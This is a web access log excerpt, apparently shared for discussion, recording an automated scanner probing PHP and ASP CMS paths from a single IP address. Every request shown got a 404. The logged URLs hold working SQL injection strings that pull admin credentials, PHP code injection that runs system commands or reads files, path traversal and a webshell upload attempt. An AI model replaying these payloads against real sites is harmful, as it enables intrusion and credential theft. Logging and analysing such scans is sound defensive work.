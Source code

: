       183.60.243.234 [05/Mar/2015:18:00:52 +0800] /index.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=dompdf.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /index.php?user-space-1/**/and/**/1=(updatexml(1,concat(0x5e24,(select/**/user()),0x5e24),1)) 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:52 +0800] /announce/announce.php 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /index.php/tools-staticPage.html?filename=../../../robots.txt 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /reg.php?F_lang= 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /dompdf.php?input_file=./dompdf.php 404 0.011 0.011 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /file/editor.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:49 +0800] /api.php 404 0.011 0.011 4477 
      183.60.243.234 [05/Mar/2015:18:00:49 +0800] /dompdf/dompdf.php?input_file=./dompdf.php 404 0.029 0.029 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /wap.php?action=list&id=392%20test 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:49 +0800] /index.php/module/action/param1/${@print(chr(126).chr(126).chr(126).`tasklist`.chr(126).chr(126).chr(126))} 404 0.013 0.013 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /huangou.php?id=1/**/and/**/1=2/**/ununionion/**/seselectlect/**/0,1,2,adminname,adminpass,5,6,7/**/from/**/duoduo_duoduo2010 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /the_file_that_should_never_exist_on_server.php?=PHPE9568F34-D428-11d2-A769-00AA001ACF42 404 0.259 0.259 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /plus/download.php?id=1&open=2 404 0.258 0.258 4477 
      183.60.243.234 [05/Mar/2015:18:00:49 +0800] /file/swfupload/editor.php 404 0.020 0.020 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /index.php/module/action/param1/${@print(chr(126).chr(126).chr(126).file_get_contents(c.chr(58).chr(92).boot.chr(46).ini).chr(126).chr(126).chr(126))} 404 0.014 0.014 4477 
      183.60.243.234 [05/Mar/2015:18:00:49 +0800] /index.php?user-space-1/**/and(select/**/1/**/from(select/**/count(*),concat((select/**/(select/**/(select/**/concat(0x5E24,username,0x3A,password,0x245E)/**/from/**/wiki_user/**/where/**/groupid=4/**/limit/**/0,1))/**/from/**/wiki_doc/**/limit/**/0,1),floor(rand(0)*2))x/**/from/**/wiki_doc/**/group/**/by/**/x)a)/**/and/**/1=1 404 0.016 0.016 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /index.php/weblinks-categories?id=0%20)%20and%20(select%201%20from%20%20(select%20count(*),concat(version(),floor(rand(0)*2))x%20from%20%20information_schema.tables%20group%20by%20x)a);%23 404 0.247 0.247 4477 
      183.60.243.234 [05/Mar/2015:18:00:50 +0800] /index.php?a=saveAvatar&m=Uc&g=Home&id=1&photoServer=19ab43298ff724ce4fa9f974dd3dfeec.php&type=big 404 0.008 0.008 4477 
    
    
    # 还有这堆asp
     183.60.243.234 [05/Mar/2015:18:00:41 +0800] /HXINCLUDE/Admin_Upfile.asp 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:38 +0800] /Search/SearchList.aspx?keyword=1&node=0/**/and/**/db_name()>0 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:36 +0800] /siteserver/cms/console_logSite.aspx?UserName=txexsxt%27+and+1%3D%28select+top+1+char%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28105%29%2Bchar%28110%29%2Bchar%2895%29%2Bchar%28116%29%2Bchar%28104%29%2Bchar%28105%29%2Bchar%28115%29%2Bchar%2895%29%2Bchar%28115%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28118%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%2895%29%2Bchar%2851%29%2Bchar%2849%29%2Bchar%2855%29%2Bchar%2856%29%2Bchar%2850%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BUsername%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2B%5BPassword%5D%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2845%29%2Bchar%2857%29%2Bchar%2856%29%2Bchar%2855%29%2Bchar%2854%29%2Bchar%2895%29%2Bchar%28110%29%2Bchar%28111%29%2Bchar%2895%29%2Bchar%28104%29%2Bchar%28101%29%2Bchar%28114%29%2Bchar%28101%29+from+%5Bbairong_Administrator%5D%29%29%29+AS+t0--&PublishmentSystemID=0&Keyword=&DateTo=&DateFrom=&LogType=ALL 404 0.010 0.010 4477 